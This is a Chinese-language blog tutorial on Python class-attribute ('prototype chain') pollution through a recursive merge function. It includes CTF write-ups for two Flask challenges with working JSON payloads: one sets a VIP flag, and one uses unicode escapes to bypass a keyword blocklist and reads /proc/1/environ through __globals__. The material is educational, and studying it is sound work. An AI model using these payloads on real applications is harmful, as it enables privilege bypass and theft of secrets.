


---
title: "python原型链污染"
date: 2025-04-30T15:25:12+08:00
summary: "python原型链污染"
url: "/posts/pyhton原型链污染/"
categories:
  - "python"
tags:
  - "python原型链污染"
draft: false
---

# 0x01废话

碰到一道nodejs的原型链污染，但我的包师傅让我先去学python的原型链污染，所以我比较听劝，马上就来学习一下，这篇文章的话也会对python的一些基础概念进行一个总结

# 0x02正文

讲到原型链污染，我们首先都知道什么是原型链污染

## 什么是原型链污染?

Python 中的原型链污染（Prototype Pollution）是指通过修改对象原型链中的属性，对程序的行为产生意外影响或利用漏洞进行攻击的一种技术。

## 关于原型链?

在Python中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找

## 攻击原理

原型链污染攻击的思路是通过**修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果**。常见的原型链污染攻击包括修改内置对象的原型、修改全局对象的原型等

Python原型链污染和Nodejs原型链污染的根本原理一样，Nodejs是对键值对的控制来进行污染，而Python则是对类属性值的污染，且只能对类的属性来进行污染不能够污染类的方法。

## 类和实例

在讲述原型链污染之前，我们要先了解python中的类和实例的关系

因为python是以OOP(面向对象编程)的方式进行编程的，这里的话包括了几个核心的概念

- **类（Class）**：类是一个模板或蓝图，它定义了对象的属性和方法（即行为）。
- **对象（Object）**：对象是类的实例。每个对象都有自己独立的属性（数据）和方法（函数）。
- **封装（Encapsulation）**：封装是将数据和操作数据的方法绑定在一起的过程，它隐藏了对象的内部实现细节，只暴露必要的接口给外部使用。
- **继承（Inheritance）**：继承允许我们基于现有的类创建新类，新类（子类）可以继承现有类（父类）的属性和方法，并添加新的属性和方法或重写现有的方法。
- **多态（Polymorphism）**：多态允许我们使用统一的接口来调用不同类中的方法，这些方法可以有不同的实现。

我们先讲类和对象，因为这个的话其实和后面的实例还是有关联的

和php类似的，在python中，类是通过class去定义的，类定义了一个对象的模板，里面包括了对象的属性和方法，一般我们叫做类属性(类变量)和类方法

具体实例

```python
class name:
    name = "John"#类属性
    age = 25
    def __init__(self, name, age):#实例方法
        self.name = name#实例属性
        self.age = age#实例属性

    def display(self):
        print("Name:", self.name)
        print("Age:", self.age)

#实例化对象
a = name("Jane", 30)
#访问对象的属性
print(a.name)
print(a.age)
#调用对象的方法
a.display()
#Jane
#30
#Name: Jane
#Age: 30
```

在这个例子中，name是一个类，里面定义了name和age属性，还定义了一个\_\_init\__是一种特殊的方法，类似于php里面的construct魔术方法，被称为初始化方法。然后下面对类实例化成对象，并举例了怎么访问对象的属性和调用对象的方法

接下来我们讲一下实例方法

实例方法是与对象实例相关联的方法。它们通过对象的引用来调用，并且可以访问和修改对象的属性。实例方法的第一个参数通常是 `self`，它是对当前对象的引用。在调用实例方法时，Python 会自动将调用该方法的对象作为 `self` 参数传递。

```php
class Car:
    def __init__(self, make, model, year):
        self.make = make
        self.model = model
        self.year = year
        self.odometer_reading = 0

    # 实例方法，用于描述对象的行为
    def describe(self):
        return f"{self.year} {self.make} {self.model}"

    # 另一个实例方法，用于更新对象的属性
    def update_odometer(self, mileage):
        if mileage >= self.odometer_reading:
            self.odometer_reading = mileage
        else:
            print("You can't roll back an odometer!")

# 创建对象
my_car = Car('audi', 'a4', 2016)

# 调用实例方法
print(my_car.describe())  # 输出: 2016 audi a4

# 更新对象的属性
my_car.update_odometer(1000)
print(my_car.odometer_reading)  # 输出: 1000

```

在这个例子中，`Car` 类定义了一个汽车对象的模板，包括制造商（`make`）、型号（`model`）、年份（`year`）和里程表读数（`odometer_reading`）等属性。`describe` 和 `update_odometer` 是实例方法，它们分别用于描述汽车的信息和更新里程表读数。

## 污染条件

主要的就是一个merge合并函数，merge函数就是python中对属性值控制的一个操作，通过merge函数去修改类属性的值，结合nodejs的merge来理解就是将源参数赋值到目标参数。

在我们的CTF中，常见的merge函数就是

```python
def merge(src, dst):  #src为源字典，dst为目标字典
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'): 
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))  
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))  
        else:
            setattr(dst, k, v)

```

这个函数的主要目的是将一个源字典（`src`）的内容合并到目标字典（`dst`）中，支持嵌套字典的递归合并。我们逐句分析一下

```
for k, v in src.items():
```

这里的话会遍历src的键值对，k是字典src的键，v是字典src的值，而`src.items()`是返回一个包含字典所有键值对的视图对象（`dict_items`），每个键值对以元组 `(k, v)` 的形式表示。

```
if hasattr(dst, '__getitem__'):
```

### hasattr()函数

`hasattr` 是 Python 内置的一个函数，用于检查一个对象是否具有指定的属性。

基础语法

```python
hasattr(object, name)
```

- **object**: 这是要检查的对象。
- **name**: 这是要检查的属性名称，必须是一个字符串。

这里通过hasattr函数 **检查对象是否具有指定的属性或方法**，这里用来检查dst中是否有`__getitem__`方法，用于实现对象的索引操作，如果 `dst` 是列表、字典、元组、字符串等支持索引操作的对象，则条件为真。

- 如果此时的dst是字典或其他类似字典的对象，则进如if语句

```python
if dst.get(k) and type(v) == dict:
    merge(v, dst.get(k))  
else:
    dst[k] = v
```

`dst.get(k)`去获取dst中k的值，检查k的值是否存在且v是否是字典，如果是则执行`merge(v, dst.get(k)) `，也就是将v作为src源字典传入，dst中的k值作为新的目标字典dst传入，继续递归调用merge，如果不是则令dst中k对应的值为v的值

- 如果此时的dst不是字典，则进行elif语句

```py
elif hasattr(dst, k) and type(v) == dict:  
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

hasattr(dst, k)检查dst中是否存在k属性，并且检查v是否是字典，如果是则执行`merge(v, getattr(dst, k))`，也就是将作为src源字典传入，`getattr(dst, k)`用于 **动态获取对象 `dst` 的属性或方法**。它的作用类似于直接通过 `dst.k` 访问属性或方法，例如当k等于`__init__`的时候，则新的dst为`dst.__init__`的结果。如果不是的话则执行`setattr(dst, k, v)`，将值 `v` 赋给对象 `dst` 的属性 `k`

## 污染过程

通过属性和方法的一层层调用，从而实现属性的修改

例如我们写个demo

```python
class father:
    secret = "hello"
class son_a(father):
    pass
class son_b(father):
    pass
#父子类继承，son_a 和 son_b 类都继承自 father 类
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
instance = son_b()
payload = {
    "__class__" : {
        "__base__" : {
            "secret" : "world"
        }
    }
}
print(son_a.secret)
#hello
print(instance.secret)
#hello
merge(payload, instance)
print(son_a.secret)
#world
print(instance.secret)
#world
```

**merge(payload, instance)**

在这里，我们自行控制的payload作为src传入merge函数，目标实例instance作为dst传入，并且将payload对应的k和v的值取了出来

我们先讲一下merge的执行步骤:

- **遍历payload**

第一次循环时:

```
k = "__class__" v = ""__base__" : {"secret" : "world"}"
```

然后会检查instance中是否有\_\_getitem\_\_方法,因为instance是实例不是字典，所以返回为false，进入elif判断，检查instance中是否有`__class__`属性和v是否为字典(因为instance是对象类型，并且含有\_\_class__默认属性，并且v也为字典格式，故执行这条判断语句)

- **递归合并**

`merge(v, getattr(dst, k))` 的作用是将一个字典 `v` 的内容合并到目标对象 `dst` 的属性 `k` 中。`getattr(dst, k)` 用于获取 `dst` 对象中的属性 `k`。如果 `k` 是一个字符串，`getattr` 将返回 `dst` 对象中名为 `k` 的属性的值。

第一次递归

```python
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
'''
src={
        "__base__" : {
            "secret" : "world"
        }
    }
dst=son_b()
'''
```

第二次递归

```python
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
'''
src={"secret" : "world"}
dst=father()
'''
```

第三次递归，**type(v) == dict**为FALSE，递归结束，此时**v=“world”**,不再是字典类型，然后执行语句

```
setattr(dst, k, v)
```

重置**father类**中的**secret**属性的值为**world**，到此简单的链污染已经完成

上面的就是一个简单的python原型链污染，在这个例子中创建的对象instance对应的son_b类是存在父类的，但很多时候是没有父类的，此时就可以利用python的一些属性来寻找对应变量

但是上面的是对象属性son.b()，但是并不是所有的类属性都可以被污染，而是要求我们的目标类可以被切入点类或对象可以通过属性值查找获取到

## 绕过姿势

- unicode绕过，但取决于是否有json.loads函数处理json数据

## 攻击姿势

污染`_static_folder`实现任意文件读取，将该配置指向根目录，从而可以读取根目录上开始的任意文件

## 试题题目

### [GeekChallenge2023]ezpython

第十四届极客大挑战的题

考点:python原型链污染

```python
import json
import os

from waf import waf
import importlib
from flask import Flask,render_template,request,redirect,url_for,session,render_template_string

app = Flask(__name__)
app.secret_key='jjjjggggggreekchallenge202333333'
class User():
    def __init__(self):
        self.username=""
        self.password=""
        self.isvip=False
#定义了一个User类，包括三个属性，并通过init初始化方法去设置三个属性的值，其中isVip的值为false

class hhh(User):
    def __init__(self):
        self.username=""
        self.password=""
#定义了一个子类hhh去继承上面的父类，但是这里只有两个属性

registered_users=[]
@app.route('/')
def hello_world():  # put application's code here
    return render_template("welcome.html")
#通过一个装饰器去定义一个路由，/表示根路径，这里定义了一个hello_word函数，负责返回渲染文件并将其渲染为响应

@app.route('/play')
def play():
    username=session.get('username')
    if username:
        return render_template('index.html',name=username)
    else:
        return redirect(url_for('login'))
#在session会话中把username的值赋值给username，若username存在，则使用 render_template 渲染 index.html 模板，并将 username 作为 name 变量传递给模板。这使得在模板中可以使用 {{ name }} 来显示用户名。不存在则重定向到登录界面

@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'POST':
        username=request.form.get('username')
        password=request.form.get('password')
        user = next((user for user in registered_users if user.username == username and user.password == password), None)
        if user:
            session['username'] = user.username
            session['password']=user.password
            return redirect(url_for('play'))
        else:
            return "Invalid login"
        return redirect(url_for('play'))
    return render_template("login.html")
#定义一个登录的函数，并设定请求方式为POST，从请求表单中获取username和password并查找是否存在匹配的用户，若存在则将username和password存储在session中，并重定向到/play界面

@app.route('/register',methods=['GET','POST'])
def register():
    if request.method == 'POST':
        try:
            if waf(request.data):
                return "fuck payload!Hacker!!!"
            data=json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "连用户名密码都没有你注册啥呢"
            user=hhh()
            merge(data,user)
            registered_users.append(user)
        except Exception as e:
            return "泰酷辣,没有注册成功捏"
        return redirect(url_for('login'))
    else:
        return render_template("register.html")
#包含waf的注册函数，处理登录的信息，如果注册成功则会重定向到登录界面
@app.route('/flag',methods=['GET'])
def flag():
    user = next((user for user in registered_users if user.username ==session['username']  and user.password == session['password']), None)
#使用生成器表达式和 next() 函数查找当前会话中的用户。如果找到了匹配的用户，则将其赋值给 user，否则将为 None。
    if user:
        if user.isvip:
    #需要成功登录且登录用户为vip用户
            data=request.args.get('num')
    #从查询字符串中获取num参数
            if data:
                if '0' not in data and data != "123456789" and int(data) == 123456789 and len(data) <=10:
                    #data不能有0，能为字符串"123456789"但是需要转化为整数后是123456789，且长度不超过10
                        flag = os.environ.get('geek_flag')
                        return render_template('flag.html',flag=flag)
                    #获取flag的值并渲染到flag.html中
                else:
                    return "你的数字不对哦!"
            else:
                return "I need a num!!!"
        else:
            return render_template_string('这种神功你不充VIP也想学?<p>要不v我50,我送你一个VIP吧,嘻嘻</p>')
    else:
        return "先登录去"

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
            
if __name__ == '__main__':
    app.run(host="0.0.0.0",port="8888")

```

这里的话看到merge的第一思路就是原型链污染，然后我们讲一下这道题的思路

我们需要注册一个用户和密码，然后进行登录，登录成功后我们的用户名和密码会被存储在session中，在/flag路由中会检测session中是否含有我们的用户名和密码，并判断我们的用户是否是vip用户，所以这里我们需要污染的值就是我们的isVip值，将其值设置为true，这样可以通过验证，然后我们需要设置我们的num的值，绕过判断后就能拿到flag

所以我们的payload直接用postman或者用bp发送(借一张图进行示范)



（`__base__`是为了指向父类user的isvip从而污染）

```json
{
    "username":"1",
    "password":"1",
    "__class__":{
        "__base__":{
            "isvip":true
        }
    }
}

```

因为isvip被过滤了，所以我们要用unicode编码来绕过\u0069\u0073\u0076\u0069\u0070

```json
{
    "username":"qetx",
    "password":"123",
    "__class__" : {
        "__base__" : {
             "\u0069\u0073\u0076\u0069\u0070":true//”isvip“:true
        }
    }
}
```

这边要注意几个点，首先使用post发包，其次Content-Type: application/json，最后发送的post内容要符合json格式，可以发现注册成功，接下来先登录一下/login然后接着去访问/flag的路由，用get方法传入一个num=+123456789

```
/flag?num=+123456789
```

执行之后查看源代码就可以得到flag了



### DSACTF2023七月暑期赛–EzFlask

```php
import uuid 
from flask import Flask, request, session 
import json

black_list = ["__init__".encode(),"__globals__".encode()]

app = Flask(__name__) 
app.secret_key = str(uuid.uuid4()) 
def check(data): 
    for i in black_list:
        print(i)
        if i in data: 
            print(i)
            return False 
    return True 
        
def merge(src, dst): 
    for k, v in src.items(): 
        if hasattr(dst, '__getitem__'): 
            if dst.get(k) and type(v) == dict: 
                merge(v, dst.get(k)) 
            else: dst[k] = v 
        elif hasattr(dst, k) and type(v) == dict: 
            merge(v, getattr(dst, k)) 
        else: setattr(dst, k, v) 
        
class user(): 
    def __init__(self): 
        self.username = "" 
        self.password = "" 
        pass 
    
    def check(self, data): 
        if self.username == data['username'] and self.password == data['password']: 
            return True 
        return False 
#定义了一个user类并包括两个方法，一个是init初始化方法，一个是check检查函数，检查我们的username和password是否与data字典中相匹配
Users = [] 
@app.route('/register',methods=['POST']) 
def register(): 
    if request.data: #检查是否包含数据
        try: 
            print(request.data)
            print(json.loads(request.data))
            if not check(request.data):
                print("No check")
                return "Register Failed" 
            data = json.loads(request.data)
            print(data)
            if "username" not in data or "password" not in data: 
                print("no username or passwd")
                return "Register Failed" 
            User = user() 
            merge(data, User) 
            Users.append(User) 
        except Exception as e: 
            print("Exception: ",e)
            return "Register Failed"
        
        return "Register Success" 
    else: 
        print("no data")
        return "Register Failed" 

@app.route('/login',methods=['POST']) 
def login(): 
    if request.data: 
        try: 
            print(request.data)
            print(json.loads(request.data))
            data = json.loads(request.data).encode()
            if "username" not in data or "password" not in data: 
                return "Login Failed" 
            for user in Users: 
                if user.check(data): 
                    session["username"] = data["username"] 
                    return "Login Success" 
        except Exception: 
            return "Login Failed" 
        return "Login Failed" 
        
@app.route('/',methods=['GET']) 
def index(): 
    return open(__file__, "r").read() 
    #接收参数并打开当前文件并读取其内容，然后将整个文件的内容作为响应返回给客户端。
if __name__ == "__main__": 
    app.run(host="0.0.0.0", port=5010)
```

看到merge函数首先想到原型链污染，在index函数中是可以直接读取\_\_file\_\_对应的文件，因此想到利用merge函数去修改这个变量，将其变为我想看到的文件，可以看到register是创建了User对象，将data中的数值merge，那么就要在data中写上payload，在User类中重写了\_\_init\_\_类，同时\_\_file\_\_变量是一个全局值，就可以用上面写到的\_\_globals\_\_函数来获取全局变量并进行修改，最后再重新进入index中读取文件内容，因此最终payload为

```json
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}

```
